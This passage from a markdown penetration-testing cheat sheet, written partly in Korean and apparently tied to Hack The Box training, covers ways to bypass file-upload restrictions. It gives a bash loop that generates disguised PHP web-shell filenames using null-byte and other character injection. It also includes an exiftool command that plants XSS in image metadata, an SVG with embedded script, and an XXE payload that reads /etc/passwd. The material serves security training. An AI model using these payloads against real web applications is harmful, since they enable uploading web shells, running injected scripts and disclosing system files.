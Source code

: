```

## Double Extensions
- [확장자 단어 목록](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- [PHP 단어 목록](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
- [ASP 단어 목록](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

## Character Injection
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
```
#!/usr/bin/env bash

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

## Content-Type Filter
- [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
```
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
$ cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

## MIME-Type
- [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)

## XSS
```exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg```

#### Scalable Vector Graphics(SVG) 이미지 (HTB.svg)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
```